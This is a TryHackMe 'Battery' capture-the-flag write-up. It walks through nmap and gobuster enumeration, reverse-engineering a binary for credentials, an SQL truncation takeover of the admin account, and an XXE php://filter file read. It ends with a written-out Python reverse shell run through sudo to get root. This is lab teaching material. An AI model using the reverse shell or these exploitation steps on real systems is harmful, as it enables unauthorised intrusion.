


#  [Battery](https://tryhackme.com/room/battery) TryHackMe Writeup


## First Stage : Enumeration.

### Note : this is one of the ways to do this room. Try your own way and root it !

Let's start with nmap

```
# Nmap 7.91 scan initiated Sat Jan 16 14:40:15 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.132.103
Nmap scan report for 10.10.132.103
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-01-16 14:40:16 IST for 741s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 14:6b:67:4c:1e:89:eb:cd:47:a2:40:6f:5f:5c:8c:c2 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAPe2PVDHBBlUCEtHNVxjToY/muZpZ4hrISDM7fuGOkh/Lp9gAwpEh24Y/u197WBDTihDJsDZJqrJEJSWbpiZgReyh1LtJTt3ag8GrUUDJCNx6lLUIWR5iukdpF7A2EvV4gFn7PqbmJmeeQRtB+vZJSp6VcjEG0wYOcRw2Z6N6ho3AAAAFQCg45+RiUGvOP0QLD6PPtrMfuzdQQAAAIEAxCPXZB4BiX72mJkKcVJPkqBkL3t+KkkbDCtICWi3d88rOqPAD3yRTKEsASHqSYfs6PrKBd50tVYgeL+ss9bP8liojOI7nP0WQzY2Zz+lfPa+d0uzGPcUk0Wg3EyLLrZXipUg0zhPjcXtxW9+/H1YlnIFoz8i/WWJCVaUTIR3JOoAAACBAMJ7OenvwoThUw9ynqpSoTPKYzYlM6OozdgU9d7R4XXgFXXLXrlL0Fb+w7TT4PwCQO1xJcWp5xJHi9QmXnkTvi386RQJRJyI9l5kM3E2TRWCpMMQVHya5L6PfWKf08RYGp0r3QkQKsG1WlvMxzLCRsnaVBqCLasgcabxY7w6e2EM
|   2048 66:42:f7:91:e4:7b:c6:7e:47:17:c6:27:a7:bc:6e:73 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkDLTds2sLmn9AZ0KAl70Fu5gfx5T6MDJehrsCzWR3nIVczHLHFVP+jXDzCcB075jjXbb+6IYFOdJiqgnv6SFxk85kttdvGs/dnmJ9/btJMgqJI0agbWvMYlXrOSN26Db3ziUGrddEjTT74Z1kokg8d7uzutsfZjxxCn0q75NDfDpNNMLlstOEfMX/HtOUaLQ47IeuSpaQoUkNkHF2SGoTTpbC+avzcCNHRIZEwQ6HdA3vz1OY6TnpAk8Gu6st9XoDGblGt7xv1vyt0qUdIYaKib8ZJQyj1vb+SJx6dCljix4yDX+hbtyKn08/tRfNeRhVSIIymOTxSGzBru2mUiO5
|   256 a8:6a:92:ca:12:af:85:42:e4:9c:2b:0e:b5:fb:a8:8b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCYHRWUDqeSQgon8sLFyvLMQygCx01yXZR6kxiT/DnZU+3x6QmTUir0HaiwM/n3aAV7eGigds0GPBEVpmnw6iu4=
|   256 62:e4:a3:f6:c6:19:ad:30:0a:30:a1:eb:4a:d3:12:d3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILW7vyhbG1WLLhSEDM0dPxFisUrf7jXiYWNSTqw6Exri
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 16 14:52:37 2021 -- 1 IP address (1 host up) scanned in 742.27 seconds
```

So the ports that are open are 

* 22
* 80


Since only port 80 seems the possible way in , let's fire up gobuster.

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.132.103/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2021/01/16 14:44:34 Starting gobuster
===============================================================
/register.php (Status: 200)
/index.html (Status: 200)
/admin.php (Status: 200)
/scripts (Status: 301)
/forms.php (Status: 200)
/report (Status: 200)
/logout.php (Status: 302)
/dashboard.php (Status: 302)
/acc.php (Status: 200)
/with.php (Status: 302)
/tra.php (Status: 302)
/server-status (Status: 403)
===============================================================
2021/01/16 15:30:28 Finished
===============================================================
```
So we can see admin.php

I tried every common passwords but didnt work.


When I went to report I downloaded a file , I didnt give it any attention . So I tried sql injection using sqlmap and manually also but nothing worked.


So I saw what is the source code of the page , in there I found an interesting thing.


If you observer the differences between both the source code u can see the maxlength "12" and "14" difference there. 


This is a type of sql vulnerability called [SQL Truncation](https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html) (click the link to give a read)


But we need to find username and the username is not admin.

A friend of mine gave me an hint to look at the file I found in **/report** directory.


So it is an elf executable file.

Hence I ran the binary.


Interesting , so I fired up ghidra in hope of finding credentials.

So the main function is:

```
undefined8 main(void)

{
  int iVar1;
  int local_8c;
  char local_88 [32];
  char local_68 [32];
  undefined local_48 [32];
  char local_28 [32];
  
  local_8c = 0;
  puts("\n\n\n");
  puts("Welcome To ABC DEF Bank Managemet System!\n\n");
  printf("UserName : ");
  __isoc99_scanf(&DAT_001021f0,local_68);
  puts("\n");
  printf("Password : ");
  __isoc99_scanf(&DAT_001021f0,local_88);
  iVar1 = strcmp(local_68,"guest");
  if ((iVar1 == 0) && (iVar1 = strcmp(local_88,"<redacted-password>"), iVar1 == 0)) {
    options();
    while (local_8c != 5) {
      printf("Your Choice : ");
      __isoc99_scanf(&DAT_00102216,&local_8c);
      if (local_8c == 1) {
        users();
      }
      else {
        if (local_8c == 4) {
          printf("email : ");
          __isoc99_scanf(&DAT_001021f0,local_28);
          puts("\n");
          printf("Password : ");
          __isoc99_scanf(&DAT_001021f0,local_48);
          update(local_28);
        }
        else {
          if ((local_8c == 3) || (local_8c == 2)) {
            puts("not available for guest account\n");
            system("clear");
            options();
          }
          else {
            puts("Wrong option\n");
            system("clear");
            options();
          }
        }
      }
    }
  }
  else {
    printf("Wrong username or password");
  }
  return 0;
}
```

So from the main function gives creds to **guest** account.

Let's use it .


So we get username __admin\<redacted>__ hence let's use sql truncate exploit.

Before we use this exploit we need to know what it does.

```
In this exploit we are creating a username more than the allowed characters , so that the server will think it is creating a new username but instead we are creating a admin account.
```
Since the register.php allows only 12 characters whereas admin.php allows 14 characters.

So we need to edit the register.php with inspect element from 12 to 14 as **admin\<redacted>   D** which should be exactly 14 characters.

U can check it with python.


Now register as this user with ur choice of password.

Login with **admin\<redacted>** and password you found.

Now you are in as admin.


## __Second Stage : From Admin to cyber__




After this I tried command injection on **acc.php**

Only command which succeeded was "whoami" . I tried many filters but wont work. I tried other php files and saw something interesting in __forms.php__


So this gives an hint that we should try __XXE__.

Hence I found a payload from [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings).

I tried **/etc/passwd**


So I tried __expect__ but didn't work . There was some filter blocking it. After that I tried to download a shell.php to the machine but the machine deletes that too. After that I tried reading acc.php (hint from a friend)


>php://filter/convert.base64-encode/resource=/var/www/html/acc.php


So we get base64 encoded reply if we decode it is the file acc.php and it has something **interesting**.

```
<!DOCTYPE html>
<html>
<head>
<style>
form
{
  border: 2px solid black;
  outline: #4CAF50 solid 3px;
  margin: auto;
  width:180px;
  padding: 20px;
  text-align: center;
}


ul {
  list-style-type: none;
  margin: 0;
  padding: 0;
  overflow: hidden;
  background-color: #333;
}

li {
  float: left;
  border-right:1px solid #bbb;
}

li:last-child {
  border-right: none;
}

li a {
  display: block;
  color: white;
  text-align: center;
  padding: 14px 16px;
  text-decoration: none;
}

li a:hover:not(.active) {
  background-color: #111;
}

.active {
  background-color: blue;
}
</style>
</head>
<body>

<ul>
  <li><a href="dashboard.php">Dashboard</a></li>
  <li><a href="with.php">Withdraw Money</a></li>
  <li><a href="depo.php">Deposit Money</a></li>
  <li><a href="tra.php">Transfer Money</a></li>
  <li><a href="acc.php">My Account</a></li>
  <li><a href="forms.php">command</a></li>
  <li><a href="logout.php">Logout</a></li>
  <li style="float:right"><a href="contact.php">Contact Us</a></li>
</ul><br><br><br><br>

</body>
</html>

<?php

session_start();
if(isset($_SESSION['favcolor']) and $_SESSION['favcolor']==="admin@bank.a")
{

echo "<h3 style='text-align:center;'>Weclome to Account control panel</h3>";
echo "<form method='POST'>";
echo "<input type='text' placeholder='Account number' name='acno'>";
echo "<br><br><br>";
echo "<input type='text' placeholder='Message' name='msg'>";
echo "<input type='submit' value='Send' name='btn'>";
echo "</form>";
//MY CREDS :- cyber:<redacted-password>
if(isset($_POST['btn']))
{
$ms=$_POST['msg'];
echo "ms:".$ms;
if($ms==="id")
{
system($ms);
}
else if($ms==="whoami")
{
system($ms);
}
else
{
echo "<script>alert('RCE Detected!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
}
}
else
{
echo "<script>alert('Only Admins can access this page!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
?>
```


Hence we get creds for __ssh__ , username is cyber.


## __Third Stage : Cyber to root__


So we ssh into the machine.





Now we try 

> sudo -l


If we run the program 


Since we dont have read and write permission .

```shell
cp run.py run.py.bak
rm run.py
```
Now the reverse shell :

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.74.96",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

Now we run :

>sudo /usr/bin/python3 /home/cyber/run.py

We get shell


Now we get the root flag. Since we are root we can also get user **yash** flag.


## __Credits:__

With the hints of **[Deepansh11](https://tryhackme.com/p/Deepansh11)** I completed this room , without those hints I would have been stuck.

